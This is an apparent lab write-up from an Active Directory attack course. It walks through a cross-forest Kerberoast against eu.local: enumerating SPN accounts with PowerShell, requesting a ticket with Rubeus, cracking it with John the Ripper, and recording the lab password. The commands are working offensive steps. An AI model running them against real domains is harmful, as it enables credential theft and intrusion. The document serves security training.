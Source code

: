 # Hands-on 22: Cross Forest Attacks - Kerberoast

- [Hands-on 22: Cross Forest Attacks - Kerberoast](#hands-on-22-cross-forest-attacks---kerberoast)
  - [Task](#task)
  - [Find a service account in the eu.local forest and Kerberoast its password](#find-a-service-account-in-the-eulocal-forest-and-kerberoast-its-password)

---

## Task

Find a service account in the eu.local forest and Kerberoast its password.

<br/>

---

## Find a service account in the eu.local forest and Kerberoast its password

First import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

<br/>

Enumerate named service accounts across the forests:

```
Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

![picture 37](images/2ebcaca9b13307f4ecfee9aa85621e94afd7190a4721d2bd2417c3cdad91a564.png)  

- `eu\storagesvc` has a SPN `MSSQLSvc/eu-file.eu.local`

<br/>

To request a TGS of the above:

```
C:\AD\Tools\Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:eu-storagesvc.txt
```

![picture 38](images/ceb784310189b284a29e5303ab06b13720c8fdf08ec63b597b47de2ca53d9920.png)  

<br/>

Use `klist` to check the ticket:

![picture 39](images/18b021f4f9fae6e480dd86b37835ed2c3f9d36cf23d34f1d584f9e6da140617c.png)  

<br/>

Use `john.exe` to crack the password:

```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\Users\studentuser64\eu-storagesvc.txt
```

![picture 40](images/78c5e7e0b37bd1d57b255226aa97d4760c8f9941560eb91bfa347742c531e22d.png)  

Note:
eu\storagesvc
- Password:  `Qwerty@123`

<br/>


